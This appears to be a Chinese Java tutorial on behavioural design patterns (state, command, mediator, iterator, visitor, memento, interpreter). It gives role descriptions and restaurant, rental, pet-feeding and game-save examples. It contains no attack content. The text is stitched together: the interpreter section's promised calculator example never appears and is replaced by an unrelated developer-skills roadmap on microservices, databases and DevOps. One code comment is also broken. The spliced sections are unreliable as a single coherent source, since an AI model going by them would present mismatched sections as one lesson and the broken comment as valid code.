    public final static StoppingState stoppingState = new StoppingState();//停止状态，这时候电梯可以开门、运行


    //定义一个当前电梯状态
    private LiftState liftState;

    public LiftState getLiftState() {
        return this.liftState;
    }

    public void setLiftState(LiftState liftState) {
        //当前环境改变
        this.liftState = liftState;
        //把当前的环境通知到各个实现类中
        this.liftState.setContext(this);
    }

    public void open() {
        this.liftState.open();
    }

    public void close() {
        this.liftState.close();
    }

    public void run() {
        this.liftState.run();
    }

    public void stop() {
        this.liftState.stop();
    }
}

//测试类
public class Client {
    public static void main(String[] args) {
        Context context = new Context();
        context.setLiftState(new ClosingState());

        context.open();
        context.close();
        context.run();
        context.stop();
    }
}
```


#### 6.命令模式


**定义：**

将一个请求封装为一个对象，**使发出请求的责任和执行请求的责任分割开**。这样两者之间通过命令对象进行沟通，这样方便将命令对象进行存储、传递、调用、增加与管理。

**一句话理解：**

使用命令对象**将请求者与执行者解耦**，请求者引用命令对象，命令对象引用执行者，例如Runnable接口就是一个命令对象，而Thread类是请求者。


命令模式包含以下主要角色：

* 抽象命令类（Command）角色： 定义命令的接口，声明执行的方法。
* 具体命令（Concrete  Command）角色：具体的命令，实现命令接口；通常会持有接收者，并调用接收者的功能来完成命令要执行的操作。
* 实现者/接收者（Receiver）角色： 接收者，真正执行命令的对象。任何类都可能成为一个接收者，只要它能够实现命令要求实现的相应功能。
* 调用者/请求者（Invoker）角色： 要求命令对象执行请求，通常会持有命令对象，可以持有很多的命令对象。这个是客户端真正触发命令并要求命令执行相应操作的地方，也就是说相当于使用命令对象的入口。


##### 6.1 示例

日常生活中，我们出去吃饭都会遇到下面的场景。


将上面的案例用代码实现，那我们就需要分析命令模式的角色在该案例中由谁来充当。

服务员： 就是调用者角色，由她来发起命令。

资深大厨： 就是接收者角色，真正命令执行的对象。

订单： 命令中包含订单。

类图如下：


OrderCommand对象实现Command接口，聚合了接收者类（厨师）和订单。

请求者（服务员）聚合命令对象列表，并实现orderUp()方法，用于调用每个命令对象中的执行方法（调用接受者的执行方法）。

代码如下：

```java
public interface Command {
    void execute();//只需要定义一个统一的执行方法
}

public class OrderCommand implements Command {

    //持有接受者对象
    private SeniorChef receiver;
    private Order order;

    public OrderCommand(SeniorChef receiver, Order order){
        this.receiver = receiver;
        this.order = order;
    }

    public void execute()  {
        System.out.println(order.getDiningTable() + "桌的订单：");
        Set<String> keys = order.getFoodDic().keySet();
        for (String key : keys) {
            receiver.makeFood(order.getFoodDic().get(key),key);
        }

        try {
            Thread.sleep(100);//停顿一下 模拟做饭的过程
        } catch (InterruptedException e) {
            e.printStackTrace();
        }


        System.out.println(order.getDiningTable() + "桌的饭弄好了");
    }
}

public class Order {
    // 餐桌号码
    private int diningTable;

    // 用来存储餐名并记录份数
    private Map<String, Integer> foodDic = new HashMap<String, Integer>();

    public int getDiningTable() {
        return diningTable;
    }

    public void setDiningTable(int diningTable) {
        this.diningTable = diningTable;
    }

    public Map<String, Integer> getFoodDic() {
        return foodDic;
    }

    public void setFoodDic(String name, int num) {
        foodDic.put(name,num);
    }
}

// 资深大厨类 是命令的Receiver
public class SeniorChef {

    public void makeFood(int num,String foodName) {
        System.out.println(num + "份" + foodName);
    }
}

public class Waitor {

    private ArrayList<Command> commands;//可以持有很多的命令对象

    public Waitor() {
        commands = new ArrayList();
    }
    
    public void setCommand(Command cmd){
        commands.add(cmd);
    }

    // 发出命令 喊 订单来了，厨师开始执行
    public void orderUp() {
        System.out.println("美女服务员：叮咚，大厨，新订单来了.......");
        for (int i = 0; i < commands.size(); i++) {
            Command cmd = commands.get(i);
            if (cmd != null) {
                cmd.execute();
            }
        }
    }
}

public class Client {
    public static void main(String[] args) {
        //创建2个order
        Order order1 = new Order();
        order1.setDiningTable(1);
        order1.getFoodDic().put("西红柿鸡蛋面",1);
        order1.getFoodDic().put("小杯可乐",2);

        Order order2 = new Order();
        order2.setDiningTable(3);
        order2.getFoodDic().put("尖椒肉丝盖饭",1);
        order2.getFoodDic().put("小杯雪碧",1);

        //创建接收者
        SeniorChef receiver=new SeniorChef();
        //将订单和接收者封装成命令对象
        OrderCommand cmd1 = new OrderCommand(receiver, order1);
        OrderCommand cmd2 = new OrderCommand(receiver, order2);
        //创建调用者 waitor
        Waitor invoker = new Waitor();
        invoker.setCommand(cmd1);
        invoker.setCommand(cmd2);

        //将订单带到柜台 并向厨师喊 订单来了
        invoker.orderUp();
    }
}
```


##### 6.2 源码应用--Runable

Runable是一个典型命令模式，Runnable担当命令的角色，Thread充当的是调用者，start方法就是其执行方法

```java
//命令接口(抽象命令角色)
public interface Runnable {
	public abstract void run();
}

//调用者
public class Thread implements Runnable {
    private Runnable target;
    
    public synchronized void start() {
        if (threadStatus != 0)
            throw new IllegalThreadStateException();

        group.add(this);

        boolean started = false;
        try {
            start0();
            started = true;
        } finally {
            try {
                if (!started) {
                    group.threadStartFailed(this);
                }
            } catch (Throwable ignore) {
            }
        }
    }
    
    private native void start0();
}
```

会调用一个native方法start0(),调用系统方法，开启一个线程。而接收者是对程序员开放的，可以自己定义接收者。

```java
/**
 * jdk Runnable 命令模式
 *		TurnOffThread ： 属于具体命令角色，同时起到请求者的作用
 */
public class TurnOffThread implements Runnable{
     private Receiver receiver;
    
     public TurnOffThread(Receiver receiver) {
     	this.receiver = receiver;
     }
     public void run() {
     	receiver.turnOFF();
     }
}
```

```java
/**
 * 测试类
 */
public class Demo {
     public static void main(String[] args) {
         Receiver receiver = new Receiver();
         TurnOffThread turnOffThread = new TurnOffThread(receiver);
         Thread thread = new Thread(turnOffThread);
         thread.start();
     }
}
```


#### 7.中介者模式

**定义：**

又叫调停模式，定义一个中介角色来封装一系列对象之间的交互，使原有对象之间的耦合松散，且可以独立地改变它们之间的交互。

**一句话理解：**

使用中介者管理同事类之间的交互，形成星型结构以降低耦合度。


**与“代理模式”的区别：**

代码模式更多的是代理，类似于代替做某件事，如代驾。

中介者模式更多的是充当同事类对象的中介者。


中介者模式包含以下主要角色：

* 抽象中介者（Mediator）角色：它是中介者的接口，提供了同事对象注册与转发同事对象信息的抽象方法。

* 具体中介者（ConcreteMediator）角色：实现中介者接口，定义一个 List 来管理同事对象，协调各个同事角色之间的交互关系，因此它依赖于同事角色。
* 抽象同事类（Colleague）角色：定义同事类的接口，保存中介者对象，提供同事对象交互的抽象方法，实现所有相互影响的同事类的公共功能。
* 具体同事类（Concrete Colleague）角色：是抽象同事类的实现者，当需要与其他同事对象交互时，由中介者对象负责后续的交互。


##### 7.1 示例

【例】租房

现在租房基本都是通过房屋中介，房主将房屋托管给房屋中介，而租房者从房屋中介获取房屋信息。房屋中介充当租房者与房屋所有者之间的中介者。

代码如下：

```java
//抽象中介者
public abstract class Mediator {
    //申明一个联络方法
    public abstract void constact(String message,Person person);
}

//抽象同事类
public abstract class Person {
    protected String name;
    protected Mediator mediator;

    public Person(String name,Mediator mediator){
        this.name = name;
        this.mediator = mediator;
    }
}

//具体同事类 房屋拥有者
public class HouseOwner extends Person {

    public HouseOwner(String name, Mediator mediator) {
        super(name, mediator);
    }

    //与中介者联系
    public void constact(String message){
        mediator.constact(message, this);
    }

    //获取信息
    public void getMessage(String message){
        System.out.println("房主" + name +"获取到的信息：" + message);
    }
}

//具体同事类 承租人
public class Tenant extends Person {
    public Tenant(String name, Mediator mediator) {
        super(name, mediator);
    }

    //与中介者联系
    public void constact(String message){
        mediator.constact(message, this);
    }

    //获取信息
    public void getMessage(String message){
        System.out.println("租房者" + name +"获取到的信息：" + message);
    }
}

//中介机构
public class MediatorStructure extends Mediator {
    //首先中介结构必须知道所有房主和租房者的信息
    private HouseOwner houseOwner;
    private Tenant tenant;

    public HouseOwner getHouseOwner() {
        return houseOwner;
    }

    public void setHouseOwner(HouseOwner houseOwner) {
        this.houseOwner = houseOwner;
    }

    public Tenant getTenant() {
        return tenant;
    }

    public void setTenant(Tenant tenant) {
        this.tenant = tenant;
    }

    public void constact(String message, Person person) {
        if (person == houseOwner) {          //如果是房主，则租房者获得信息
            tenant.getMessage(message);
        } else {       //反之则是房主获得信息
            houseOwner.getMessage(message);
        }
    }
}

//测试类
public class Client {
    public static void main(String[] args) {
        //一个房主、一个租房者、一个中介机构
        MediatorStructure mediator = new MediatorStructure();

        //房主和租房者只需要知道中介机构即可
        HouseOwner houseOwner = new HouseOwner("张三", mediator);
        Tenant tenant = new Tenant("李四", mediator);

        //中介结构要知道房主和租房者
        mediator.setHouseOwner(houseOwner);
        mediator.setTenant(tenant);

        tenant.constact("需要租三室的房子");
        houseOwner.constact("我这有三室的房子，你需要租吗？");
    }
}
```


#### 8. 迭代器模式

**定义：**

提供一个对象来顺序访问聚合对象中的一系列数据，而不暴露聚合对象的内部表示。 


**一句话理解：**

使用迭代器对象用于访问聚合对象（如容器List）中的数据，而不暴露聚合对象的内部表示。

迭代器模式主要包含以下角色：

* 抽象聚合（Aggregate）角色：定义存储、添加、删除聚合元素以及创建迭代器对象的接口。

* 具体聚合（ConcreteAggregate）角色：实现抽象聚合类，返回一个具体迭代器的实例。
* 抽象迭代器（Iterator）角色：定义访问和遍历聚合元素的接口，通常包含 hasNext()、next() 等方法。
* 具体迭代器（Concretelterator）角色：实现抽象迭代器接口中所定义的方法，完成对聚合对象的遍历，记录遍历的当前位置。


##### 8.1 示例

【例】定义一个可以存储学生对象的容器对象，将遍历该容器的功能交由迭代器实现

代码如下：

定义迭代器接口，声明hasNext、next方法

```java
public interface StudentIterator {
    boolean hasNext();
    Student next();
}
```

定义具体的迭代器类，重写所有的抽象方法

```java
public class StudentIteratorImpl implements StudentIterator {
    private List<Student> list;
    private int position = 0;

    public StudentIteratorImpl(List<Student> list) {
        this.list = list;
    }

    @Override
    public boolean hasNext() {
        return position < list.size();
    }

    @Override
    public Student next() {
        Student currentStudent = list.get(position);
        position ++;
        return currentStudent;
    }
}
```

定义抽象容器类，包含添加元素，删除元素，获取迭代器对象的方法

```java
public interface StudentAggregate {
    void addStudent(Student student);

    void removeStudent(Student student);

    StudentIterator getStudentIterator();
}
```

定义具体的容器类，重写所有的方法

```java
public class StudentAggregateImpl implements StudentAggregate {

    private List<Student> list = new ArrayList<Student>();  // 学生列表

    @Override
    public void addStudent(Student student) {
        this.list.add(student);
    }

    @Override
    public void removeStudent(Student student) {
        this.list.remove(student);
    }

    @Override
    public StudentIterator getStudentIterator() {
        return new StudentIteratorImpl(list);
    }
}
```


##### 8.2 源码应用--ArrayList

迭代器模式在JAVA的很多集合类中被广泛应用，接下来看看JAVA源码中是如何使用迭代器模式的。

```java
List<String> list = new ArrayList<>();
Iterator<String> iterator = list.iterator(); //list.iterator()方法返回的肯定是Iterator接口的子实现类对象
while (iterator.hasNext()) {
    System.out.println(iterator.next());
}
```

看完这段代码是不是很熟悉，与我们上面代码基本类似。单列集合都使用到了迭代器，我们以ArrayList举例来说明

- List：抽象聚合类
- ArrayList：具体的聚合类
- Iterator：抽象迭代器
- list.iterator()：返回的是实现了 `Iterator` 接口的具体迭代器对象（内部类）

具体的来看看 ArrayList的代码实现

```java
public class ArrayList<E> extends AbstractList<E>
        implements List<E>, RandomAccess, Cloneable, java.io.Serializable {
    
    public Iterator<E> iterator() {
        return new Itr();
    }
    
    private class Itr implements Iterator<E> {
        int cursor;       // 下一个要返回元素的索引
        int lastRet = -1; // 上一个返回元素的索引
        int expectedModCount = modCount;

        Itr() {}
		
        //判断是否还有元素
        public boolean hasNext() {
            return cursor != size;
        }

        //获取下一个元素
        public E next() {
            checkForComodification();
            int i = cursor;
            if (i >= size)
                throw new NoSuchElementException();
            Object[] elementData = ArrayList.this.elementData;
            if (i >= elementData.length)
                throw new ConcurrentModificationException();
            cursor = i + 1;
            return (E) elementData[lastRet = i];
        }
        ...
}
```

这部分代码还是比较简单，大致就是在 `iterator` 方法中返回了一个实例化的 `Iterator` 对象。**Itr是一个内部类，它实现了 `Iterator` 接口并重写了其中的抽象方法**。


#### 9. 访问者模式

**定义：**

封装一些作用于某种数据结构中的各元素的操作，它可以在不改变这个数据结构的前提下定义作用于这些元素的新的操作。

**一句话理解：**

使用访问者对象封装了某种数据结构中的各元素的操作，并可新增操作而不改变该数据结构，同时通过双分派实现动态绑定（e.accept(vistor)。


访问者模式包含以下主要角色:

* 抽象访问者（Visitor）角色：定义了对每一个元素`（Element）`访问的行为，它的参数就是可以访问的元素，它的方法个数理论上来讲与元素类个数（Element的实现类个数）是一样的，从这点不难看出，访问者模式要求元素类的个数不能改变。
* 具体访问者（ConcreteVisitor）角色：给出对每一个元素类访问时所产生的具体行为。
* 抽象元素（Element）角色：定义了一个接受访问者的方法（`accept`），其意义是指，每一个元素都要可以被访问者访问。
* 具体元素（ConcreteElement）角色： 提供接受访问方法的具体实现，而这个具体的实现，通常情况下是使用访问者提供的访问该元素类的方法。
* 对象结构（Object Structure）角色：定义当中所提到的对象结构，对象结构是一个抽象表述，具体点可以理解为一个具有容器性质或者复合对象特性的类，它会含有一组元素（`Element`），并且可以迭代这些元素，供访问者访问。

##### 9.1 示例

【例】给宠物喂食

现在养宠物的人特别多，我们就以这个为例，当然宠物还分为狗，猫等，要给宠物喂食的话，主人可以喂，其他人也可以喂食。

- 访问者角色：给宠物喂食的人
- 具体访问者角色：主人、其他人
- 抽象元素角色：动物抽象类
- 具体元素角色：宠物狗、宠物猫
- 结构对象角色：主人家

代码如下：

创建抽象访问者接口

```java
public interface Person {
    void feed(Cat cat);

    void feed(Dog dog);
}
```

创建不同的具体访问者角色（主人和其他人），都需要实现 `Person`接口

```java
public class Owner implements Person {

    @Override
    public void feed(Cat cat) {
        System.out.println("主人喂食猫");
    }

    @Override
    public void feed(Dog dog) {
        System.out.println("主人喂食狗");
    }
}

public class Someone implements Person {
    @Override
    public void feed(Cat cat) {
        System.out.println("其他人喂食猫");
    }

    @Override
    public void feed(Dog dog) {
        System.out.println("其他人喂食狗");
    }
}
```

- 访问者对象定义了针对元素的具体动作，有多少个具体元素就有几个方法。

定义抽象节点 -- 宠物

```java
public interface Animal {
    void accept(Person person);
}
```

定义实现`Animal`接口的 具体节点（元素）

```java
public class Dog implements Animal {

    @Override
    public void accept(Person person) {
        person.feed(this);
        System.out.println("好好吃，汪汪汪！！！");
    }
}

public class Cat implements Animal {

    @Override
    public void accept(Person person) {
        person.feed(this);
        System.out.println("好好吃，喵喵喵！！！");
    }
}
```

- accept()方法接收访问者，并调用访问者中定义的具体行为方法


定义对象结构，此案例中就是主人的家

```java
public class Home {
    private List<Animal> nodeList = new ArrayList<Animal>();

    public void action(Person person) {
        for (Animal node : nodeList) {
            node.accept(person);
        }
    }

    //添加操作
    public void add(Animal animal) {
        nodeList.add(animal);
    }
}

```

测试类

```java
public class Client {
    public static void main(String[] args) {
        Home home = new Home();
        home.add(new Dog());
        home.add(new Cat());

        Owner owner = new Owner();
        home.action(owner);

        Someone someone = new Someone();
        home.action(someone);
    }
}
```


#### 10. 备忘录模式（快照模式）

备忘录模式提供了一种状态恢复的实现机制，使得用户可以方便地回到一个特定的历史步骤，当新的状态无效或者存在问题时，可以使用暂时存储起来的备忘录将状态复原，很多软件都提供了撤销（Undo）操作，如 Word、记事本、Photoshop、IDEA等软件在编辑时按 Ctrl+Z 组合键时能撤销当前操作，使文档恢复到之前的状态；还有在 浏览器 中的后退键、数据库事务管理中的回滚操作、玩游戏时的中间结果存档功能、数据库与操作系统的备份操作、棋类游戏中的悔棋功能等都属于这类。

**定义：**

又叫快照模式，在不破坏封装性的前提下，捕获一个对象的内部状态，并在该对象之外保存这个状态，以便以后当需要时能将该对象恢复到原先保存的状态。

**一句话理解：**

快照，捕获并保存一个对象的内部状态，便于后续恢复或回滚。


备忘录模式的主要角色如下：

* 发起人（Originator）角色：记录当前时刻的内部状态信息，提供创建备忘录和恢复备忘录数据的功能，实现其他业务功能，它可以访问备忘录里的所有信息。
* 备忘录（Memento）角色：负责存储发起人的内部状态，在需要的时候提供这些内部状态给发起人。
* 管理者（Caretaker）角色：对备忘录进行管理，提供保存与获取备忘录的功能，但其不能对备忘录的内容进行访问与修改。

备忘录有两个等效的接口：

* **窄接口**：管理者(Caretaker)对象（和其他发起人对象之外的任何对象）看到的是备忘录的窄接口(narror Interface)，这个窄接口只允许他把备忘录对象传给其他的对象。
* **宽接口**：与管理者看到的窄接口相反，发起人对象可以看到一个宽接口(wide Interface)，这个宽接口允许它读取所有的数据，以便根据这些数据恢复这个发起人对象的内部状态。


##### 10.1 示例

【例】游戏挑战BOSS

游戏中的某个场景，一游戏角色有生命力、攻击力、防御力等数据，在打Boss前和后一定会不一样的，我们允许玩家如果感觉与Boss决斗的效果不理想可以让游戏恢复到决斗之前的状态。

要实现上述案例，有两种方式：

* “白箱”备忘录模式
* “黑箱”备忘录模式


###### 1）“白箱”备忘录模式

备忘录角色对任何对象都提供一个接口，即宽接口，备忘录角色的内部所存储的状态就对所有对象公开。

代码如下：

```java
//游戏角色类
public class GameRole {
    private int vit; //生命力
    private int atk; //攻击力
    private int def; //防御力

    //初始化状态
    public void initState() {
        this.vit = 100;
        this.atk = 100;
        this.def = 100;
    }

    //战斗
    public void fight() {
        this.vit = 0;
        this.atk = 0;
        this.def = 0;
    }

    //保存角色状态
    public RoleStateMemento saveState() {
        return new RoleStateMemento(vit, atk, def);
    }

    //回复角色状态
    public void recoverState(RoleStateMemento roleStateMemento) {
        this.vit = roleStateMemento.getVit();
        this.atk = roleStateMemento.getAtk();
        this.def = roleStateMemento.getDef();
    }

    public void stateDisplay() {
        System.out.println("角色生命力：" + vit);
        System.out.println("角色攻击力：" + atk);
        System.out.println("角色防御力：" + def);
    }

    public int getVit() {
        return vit;
    }

    public void setVit(int vit) {
        this.vit = vit;
    }

    public int getAtk() {
        return atk;
    }

    public void setAtk(int atk) {
        this.atk = atk;
    }

    public int getDef() {
        return def;
    }

    public void setDef(int def) {
        this.def = def;
    }
}

//游戏状态存储类(备忘录类)
public class RoleStateMemento {
    private int vit;
    private int atk;
    private int def;

    public RoleStateMemento(int vit, int atk, int def) {
        this.vit = vit;
        this.atk = atk;
        this.def = def;
    }

    public int getVit() {
        return vit;
    }

    public void setVit(int vit) {
        this.vit = vit;
    }

    public int getAtk() {
        return atk;
    }

    public void setAtk(int atk) {
        this.atk = atk;
    }

    public int getDef() {
        return def;
    }

    public void setDef(int def) {
        this.def = def;
    }
}

//角色状态管理者类
public class RoleStateCaretaker {
    private RoleStateMemento roleStateMemento;

    public RoleStateMemento getRoleStateMemento() {
        return roleStateMemento;
    }

    public void setRoleStateMemento(RoleStateMemento roleStateMemento) {
        this.roleStateMemento = roleStateMemento;
    }
}

//测试类
public class Client {
    public static void main(String[] args) {
        System.out.println("------------大战Boss前------------");
        //大战Boss前
        GameRole gameRole = new GameRole();
        gameRole.initState();
        gameRole.stateDisplay();

        //保存进度
        RoleStateCaretaker roleStateCaretaker = new RoleStateCaretaker();
        roleStateCaretaker.setRoleStateMemento(gameRole.saveState());

        System.out.println("------------大战Boss后------------");
        //大战Boss时，损耗严重
        gameRole.fight();
        gameRole.stateDisplay();
        System.out.println("------------恢复之前状态------------");
        //恢复之前状态
        gameRole.recoverState(roleStateCaretaker.getRoleStateMemento());
        gameRole.stateDisplay();

    }
}
```

> 分析：白箱备忘录模式是破坏封装性的。但是通过程序员自律，同样可以在一定程度上实现模式的大部分用意。


###### 2）“黑箱”备忘录模式

备忘录角色对发起人对象提供一个宽接口，而为其他对象提供一个窄接口。

代码如下：

窄接口`Memento`，这是一个标识接口，因此没有定义出任何的方法

```java
public interface Memento {
}
```

定义发起人类 `GameRole`，并在内部定义备忘录内部类 `RoleStateMemento`（该内部类设置为私有的）

```java
/游戏角色类
public class GameRole {
    private int vit; //生命力
    private int atk; //攻击力
    private int def; //防御力

    //初始化状态
    public void initState() {
        this.vit = 100;
        this.atk = 100;
        this.def = 100;
    }

    //战斗
    public void fight() {
        this.vit = 0;
        this.atk = 0;
        this.def = 0;
    }

    //保存角色状态
    public Memento saveState() {
        return new RoleStateMemento(vit, atk, def);
    }

    //回复角色状态
    public void recoverState(Memento memento) {
        RoleStateMemento roleStateMemento = (RoleStateMemento) memento;
        this.vit = roleStateMemento.getVit();
        this.atk = roleStateMemento.getAtk();
        this.def = roleStateMemento.getDef();
    }

    public void stateDisplay() {
        System.out.println("角色生命力：" + vit);
        System.out.println("角色攻击力：" + atk);
        System.out.println("角色防御力：" + def);

    }

    public int getVit() {
        return vit;
    }

    public void setVit(int vit) {
        this.vit = vit;
    }

    public int getAtk() {
        return atk;
    }

    public void setAtk(int atk) {
        this.atk = atk;
    }

    public int getDef() {
        return def;
    }

    public void setDef(int def) {
        this.def = def;
    }

    private class RoleStateMemento implements Memento {
        private int vit;
        private int atk;
        private int def;

        public RoleStateMemento(int vit, int atk, int def) {
            this.vit = vit;
            this.atk = atk;
            this.def = def;
        }

        public int getVit() {
            return vit;
        }

        public void setVit(int vit) {
            this.vit = vit;
        }

        public int getAtk() {
            return atk;
        }

        public void setAtk(int atk) {
            this.atk = atk;
        }

        public int getDef() {
            return def;
        }

        public void setDef(int def) {
            this.def = def;
        }
    }
}
```

负责人角色类 `RoleStateCaretaker` 能够得到的备忘录对象是以 `Memento` 为接口的，由于这个接口仅仅是一个标识接口，因此负责人角色不可能改变这个备忘录对象的内容

```java
//角色状态管理者类
public class RoleStateCaretaker {
    private Memento memento;

    public Memento getMemento() {
        return memento;
    }

    public void setMemento(Memento memento) {
        this.memento = memento;
    }
}
```

客户端测试类

```java
public class Client {
    public static void main(String[] args) {
        System.out.println("------------大战Boss前------------");
        //大战Boss前
        GameRole gameRole = new GameRole();
        gameRole.initState();
        gameRole.stateDisplay();

        //保存进度
        RoleStateCaretaker roleStateCaretaker = new RoleStateCaretaker();
        roleStateCaretaker.setMemento(gameRole.saveState());
        
        System.out.println("------------大战Boss后------------");
        //大战Boss时，损耗严重
        gameRole.fight();
        gameRole.stateDisplay();
        System.out.println("------------恢复之前状态------------");
        //恢复之前状态
        gameRole.recoverState(roleStateCaretaker.getMemento());
        gameRole.stateDisplay();
    }
}

```


#### 11. 解释器模式

**定义：**

> 给定一个语言，定义它的文法表示，并定义一个解释器，这个解释器使用该标识来解释语言中的句子。

**一句话理解：**

使用语法（文法表达式）+解释器，在表达式中通过定义interpret方法解释表达式，如加减法计算器可以使用解释器模式来定义。

在解释器模式中，我们需要将待解决的问题，提取出规则，抽象为一种“语言”。比如加减法运算，规则为：由数值和+-符号组成的合法序列，“1+3-2” 就是这种语言的句子。

解释器就是要解析出来语句的含义。但是如何描述规则呢？

**文法（语法）规则：**

文法是用于描述语言的语法结构的形式规则。

```
expression ::= value | plus | minus
plus ::= expression ‘+’ expression   
minus ::= expression ‘-’ expression  
value ::= integer
```

> 注意： 这里的符号“::=”表示“定义为”的意思，竖线 | 表示或，左右的其中一个，引号内为字符本身，引号外为语法。

上面规则描述为 ：

表达式可以是一个值，也可以是plus或者minus运算，而plus和minus又是由表达式结合运算符构成，值的类型为整型数。

**抽象语法树：**

在计算机科学中，抽象语法树（AbstractSyntaxTree，AST），或简称语法树（Syntax tree），是源代码语法结构的一种抽象表示。它以树状的形式表现编程语言的语法结构，树上的每个节点都表示源代码中的一种结构。

用树形来表示符合文法规则的句子。


解释器模式包含以下**主要角色**。

* 抽象表达式（Abstract Expression）角色：定义解释器的接口，约定解释器的解释操作，主要包含解释方法 interpret()。

* 终结符表达式（Terminal  Expression）角色：是抽象表达式的子类，用来实现文法中与终结符相关的操作，文法中的每一个终结符都有一个具体终结表达式与之相对应。
* 非终结符表达式（Nonterminal Expression）角色：也是抽象表达式的子类，用来实现文法中与非终结符相关的操作，文法中的每条规则都对应于一个非终结符表达式。
* 环境（Context）角色：通常包含各个解释器需要的数据或是公共的功能，一般用来传递被所有解释器共享的数据，后面的解释器可以从这里获取这些值。
* 客户端（Client）：主要任务是将需要分析的句子或表达式转换成使用解释器对象描述的抽象语法树，然后调用解释器的解释方法，当然也可以通过环境角色间接访问解释器的解释方法。


#### 11.1 示例

【例】设计实现加减法的软件


- **代码质量（坏味道）**：可读性/可扩展/可维护/可测试；分层清晰/模块化好/简洁易懂/规范一致/代码复用...；
- **编码风格**：规范命名/注释/函数/错误处理等，参考 [Google Style Guide](https://google.github.io/styleguide/)
- **编码细节**：业务逻辑、规范、边界、异常、性能、**日志**、并发、安全、兼容...
- **单元测试**：TDD设计思路，编写可测试性代码，依赖注入mock，UT的ROI和覆盖率权衡
- **代码评审**：需求拆小，小批量CR<200行，参考 [Code Review Developer Guide](https://google.github.io/eng-practices/review/)
- **静态代码检查**：了解Coverity/Gometalinter等工具的检查规则集，设置规范/安全/团队一致性约束质量红线
- **代码度量**：关注规范问题数/安全问题数/圈复杂度/重复代码率...


## 微服务架构

- **架构演进**：单体应用/分布式SOA/微服务/服务网格，了解微服务和SOA的区别
- **RPC框架**：gRPC/Spring/tRPC（源码走读），高性能网络模型实现，插件化架构AOP，微服务治理组件
- **序列化协议**：protobuf/json/xml，性能和压缩空间对比，序列化原理tlv，反射和动态解析特性
- **服务注册和路由发现**：etcd/consul/zk/polaris，分SET等动态路由功能
- **配置中心**：etcd/zk/apollo，数据高可用方案，选主和解决脑裂问题
- **服务网关**：Kong/Zuul，收拢API注册/认证授权/入口协议/限流熔断/优雅下线/日志监控等能力
- **负载均衡**：常见策略 轮询/随机/权重，一致性Hash实现原理和节点扩缩容Key迁移策略
- **访问限流**：Hystrix/polaris，分布式限流实现方案，限流算法 计数器/滑动窗口/漏桶/令牌桶，常见业务限流维度
- **故障熔断**：服务健康检测机制，服务熔断的触发和恢复条件，全死全活保护策略
- **自适应过载保护**：微服务运行指标自适应 CPU/等待队列/超时请求等

## 中间件（redis/mysql/kafka）

**redis相关**：

- **应用-基础**：常见数据类型，性能和慢操作 bigkey/hotkey，批处理 pipeline
- **应用-缓存**：缓存穿透/击穿/雪崩的解决方案，过期删除策略 惰性/定期，内存淘汰策略 8类 LRU/LFU，
- **应用-并发访问**：单命令INCR/DECR，Redis-Lua，事务ACID MULTI/EXEC，分布式锁 SETNX 对比zk/consul
- **应用-消息队列**：数据类型List和Streams，PUB/SUB，消息组 XADD/XREADGROUP/XACK
- **系统-高性能**：线程模型 单线程（规避并发控制），数据结构 压缩表/跳表，网络框架 epoll，内存管理 jemalloc
- **系统-高可用**：冗余部署 主从复制（副本），持久化方案 AOF/RDB，HA集群 哨兵机制 sentinel
- **系统-易扩展**：可伸缩性 数据分片（分区），负载均衡，集群方案 replication/sentinel/cluster

**mysql相关**：

- **应用-SQL优化**：执行计划 explain，慢SQL分析 mysqldumpslow，链接管理 show processlist
- **应用-事务**：ACID，隔离级别 RC/RR 脏读/幻读/不可重复读，版本控制 MVCC
- **应用-锁机制**：全局锁/表锁/行锁，行间锁
- **系统-高性能**：存储引擎 InnoDB，索引 B+树
- **系统-高可用**：主从复制 同步/半同步/异步，日志 binlog/redolog，binlog模式 ROW、落盘策略
- **系统-可扩展**：业务分离、读写分离、分库分表/数据分区、sharding
- **系统-可运营**：认证授权、SQL误操作、SQL注入、参数配置、监控指标、排障调优、计费方案

**kafka相关**：

- **应用-基础**：主题Topic/分区Partition/副本Replica、生产Producer/中转Broker/消费Consumer、消息Record/位移Offset
- **应用-消息模型**：消费者组Consumer Group，点对点模型p2p vs 发布订阅模型pub/sub
- **应用-消息队列特性**：消息可靠性（不丢消息）、消息顺序性、消息唯一性
- **应用-流计算**：分布式流平台Kafka Streams
- **系统-高性能**：磁盘顺序读写/零拷贝机制等，重平衡Rebalance，消息延迟和堆积
- **系统-高可用**：副本机制Replica，Leader/Follower，HA系统 基于zk的controller
- **系统-可扩展**：分区机制Partition，负载均衡策略
- **系统-可运营**：认证授权、运营操作、参数配置、监控指标、排障调优、计费方案

## 研发效能

- **研发流程**：宣讲、方案、编码、代码CR、测试、发布、运营
- **云原生应用**：CNCF Landscape/Trail Map，docker/k8s/istio，云原生成熟度
- **开发环境**：一键环境搭建（机器/配置/代码），开发IDE VSCODE/JetBrains，本地开发&远程调试
- **代码仓库 Git**：基本工作原理（暂存区/本地/远程），常用操作，冲突解决方法...
- **分支管理**：常见策略优缺点（Git flow/Github flow/Gitlab flow），主干开发&特性开关
- **CI/CD**：平台工具 Jenkins/TravisCI/GitLab，自动化流水线设计，工作流 XaC/GitOps
- **环境管理**：多环境 Pro/Rre/Test/Dev，环境路由标记和数据隔离方案
- **自动化测试**：金字塔模型 UT/API/UI，集成测试方案，测试左移和右移方案
- **部署发布**：灰度发布/滚动发布/蓝绿部署/红黑部署，多SET部署方案（SET探活/流量切换） 
- **自动化HPA能力**：服务无状态化&容器化，模板编排&瘦容器SideCar，参数调优（利用率/探针...）
- **系统可观测**：Logging/Metrics/Tracing，全景看板，组件核心监控（DB同步距离/MQ未消费数）
- **效率工具**：持续利用工具提效，快捷键/IDE插件/脚手架/工具包/机器人/chatGDP...
- **研效度量**：质量指标 MTTR/MTBR/故障数/缺陷数/安全漏洞数，效率指标 需求吞吐量/部署频率/需求研发周期 feature lead time...

# 系统架构篇（高级）

## 海量高并发

- **容量预估**：用户路径梳理，接口裁剪&QPS预估，关注木桶效应（前端/接入/逻辑/存储/依赖第三方）
- **全链路压测**：请求标注&环境隔离，流量复制 TcpCopy/GoReplay，用例校准，瓶颈定位，环境清理&用例回归
- **横向扩容 Scale-out**：逻辑层做分布式微服务拆分，存储层引入分布式数据库提升伸缩性
- **访问限流**：业务侧提前预约/设验证码/限制重试，系统侧基于API网关做限流熔断/过载保护
- **性能分析**：链路追踪 Tracing，应用分析 pprof/torch，性能4大金刚（CPU/内存/磁盘/网络）
- **服务性能优化实践**：关注锁粒度/异步处理/日志缓冲/队列丢包/内核参数net.core.somaxconn...
- **数据库优化**：分片sharding（TiDB）、业务分离、读写分离、链接池&链接代理、慢SQL优化、参数调优...
